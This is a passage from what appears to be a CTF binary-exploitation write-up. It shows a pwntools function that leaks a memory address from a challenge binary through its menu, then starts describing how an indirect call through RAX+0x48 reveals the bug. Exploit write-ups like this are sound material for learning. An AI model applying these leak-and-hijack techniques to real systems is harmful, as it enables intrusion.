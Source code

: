 ![](https://raw.githubusercontent.com/dplastico/dplastico.github.io/main/_posts/img/2022-05-25-13-47-12.png)

You can leak the address using a function similar to the one below.

```python

def leak_2():
    leak = ""
    r.sendline(b"2")
    r.sendlineafter(b"What do you want!!?",b"Phasers")
    r.recvline()
    r.recvline()
    leak = u64(r.recvline().strip().ljust(8, b"\x00"))
    r.recvuntil(b"[*] What do you want to do?")
    return leak
```

Now, this is where things get interesting. I will explain what my thought process was. Maybe there's a more efficient way to discover this bug, but in my case, it starts with this: I first noticed that when you call option "1" from the menu, the "storage" variable is passed to the RAX register and then moves the value at RAX + 0x48 to RDX to then CALL RDX as shown below:

![](https://raw.githubusercontent.com/dplastico/dplastico.github.io/main/_posts/img/2022-05-25-13-58-48.png)
